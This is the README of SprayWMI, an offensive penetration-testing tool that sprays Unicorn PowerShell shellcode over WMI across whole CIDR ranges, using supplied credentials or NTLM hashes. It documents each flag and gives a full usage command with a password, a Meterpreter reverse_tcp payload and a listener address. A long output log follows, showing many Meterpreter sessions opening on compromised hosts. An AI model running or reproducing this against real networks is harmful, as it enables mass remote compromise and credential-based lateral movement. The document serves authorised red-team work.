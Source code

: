 SprayWMI is a method for mass spraying Unicorn PowerShell injection to CIDR notations.

Written by: David Kennedy (@HackingDave) @TrustedSec
Special thanks to: Justin Elze and Larry Spohn @TrustedSec

Initial blog post: https://www.trustedsec.com/june-2015/no_psexec_needed/
If you have trouble with this on 64-bit, try:
dpkg --add-architecture i386 && apt-get update && apt-get install libpam0g:i386 && apt-get install libpopt0:i386

Flags and descriptions:

domain                 Domain you are attacking. If its local, just specify workgroup.

username               Username to authenticate on the remote Windows system.

password               Password or password hash LM:NTLM to use on the remote Windows system.

CIDR range or file     Specify a single IP, CIDR range (10.0.1.1/24) or multiple CIDRs: 10.0.1.1/24,10.0.2.1/24. 
                          You can also specify a file (ex: ips.txt) that contains a single IP addresses on each line. 
payload                Metasploit payload, example: windows/meterpreter/reverse_tcp

LHOST                  Reverse shell IP address.

LPORT                  Reverse shell listening port.

optional: NO           Specify no if you do not want to create a listener. This is useful if you already have a listener 
                          established. If you do not specify a value, it will automatically create a listener for you.

Usage: python spraywmi.py <domain> <username> <password> <CIDRrange or file> <payload> <LHOST> <LPORT> <optional: no>


Below is an example of output from spraywmi:

root@stronghold:/home/relik# python spraywmi.py TS kennedy-test complexP255w0rd! 10.0.90.1/24,10.0.0.1/24,10.0.59.1/24,10.0.96.1/24,10.0.1.1/24 windows/meterpreter/reverse_tcp 10.0.47.24 443

[*] Generating shellcode through Unicorn, this could take a few seconds.

[*] Launching the listener in the background.

[*] Waiting for the listener to start first before we continue.

[*] Be patient, Metasploit takes a little bit to start.

[*] Sweeping targets for open TCP port 135 first, then moving through. Be patient.

[*] Launching WMI spray against IP: 10.0.90.1 - You should have a shell in the background. Once finished, a shell will spawn.

<snip>

[*] Launching WMI spray against IP: 10.0.96.20 - You should have a shell in the background. Once finished, a shell will spawn.

[*] Launching WMI spray against IP: 10.0.96.21 - You should have a shell in the background. Once finished, a shell will spawn.

[*] Launching WMI spray against IP: 10.0.96.22 - You should have a shell in the background. Once finished, a shell will spawn.

[*] Launching WMI spray against IP: 10.0.96.23 - You should have a shell in the background. Once finished, a shell will spawn.

[*] Launching WMI spray against IP: 10.0.96.242 - You should have a shell in the background. Once finished, a shell will spawn.

[*] Launching WMI spray against IP: 10.0.1.13 - You should have a shell in the background. Once finished, a shell will spawn.

[*] Spraying is still happening in the background, shells should arrive as they complete.

[*] Interacting with Metasploit.

msf exploit(handler) > 

[*] Encoded stage with x86/shikata_ga_nai

[*] Sending encoded stage (885836 bytes) to 10.0.90.174

[*] Meterpreter session 1 opened (10.0.47.24:443 -> 10.0.90.174:49868) at 2015-10-13 04:33:55 -0400

[*] Encoded stage with x86/shikata_ga_nai

[*] Sending encoded stage (885836 bytes) to 10.0.90.203

[*] Meterpreter session 2 opened (10.0.47.24:443 -> 10.0.90.203:51333) at 2015-10-13 04:33:59 -0400

[*] Encoded stage with x86/shikata_ga_nai

[*] Sending encoded stage (885836 bytes) to 10.0.90.184

[*] Meterpreter session 3 opened (10.0.47.24:443 -> 10.0.90.184:61218) at 2015-10-13 04:34:02 -0400

[*] Encoded stage with x86/shikata_ga_nai

[*] Sending encoded stage (885836 bytes) to 10.0.90.204

[*] Meterpreter session 4 opened (10.0.47.24:443 -> 10.0.90.204:54219) at 2015-10-13 04:34:06 -0400

[*] Encoded stage with x86/shikata_ga_nai

[*] Sending encoded stage (885836 bytes) to 10.0.90.175

[*] Meterpreter session 5 opened (10.0.47.24:443 -> 10.0.90.175:54210) at 2015-10-13 04:34:10 -0400

<snip>

[*] Meterpreter session 13 opened (10.0.47.24:443 -> 10.0.90.248:53657) at 2015-10-13 04:34:31 -0400

[*] Encoded stage with x86/shikata_ga_nai

[*] Sending encoded stage (885836 bytes) to 10.0.90.39

[*] Meterpreter session 14 opened (10.0.47.24:443 -> 10.0.90.39:60451) at 2015-10-13 04:34:35 -0400

[*] Encoded stage with x86/shikata_ga_nai
